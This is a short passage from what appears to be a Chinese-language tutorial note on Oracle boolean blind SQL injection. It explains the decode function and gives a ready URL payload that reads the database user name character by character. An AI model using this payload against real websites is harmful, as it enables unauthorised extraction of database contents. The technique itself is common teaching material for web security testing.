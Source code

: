 ![image-20210719141917778](websafe/image-20210719141917778.png)

![image-20210719142536666](websafe/image-20210719142536666.png)

![image-20210719142828053](websafe/image-20210719142828053.png)

#### 布尔盲注

`decode()、instr()、ascii()`

```sql
decode(字段和值的运算,值1，值2,值3)函数
运算结果与值1进行对比，返回值2，不相等返回值3
decode(substr(str,1,1),'0-9a-zA-Z',1,0) 第一位与a对比，一样返回 1，否则返回0
#payload:
?id=1 and (select decode(substr((select user from dual),1,1),'T',1,0) from dual) =1  -- 
```

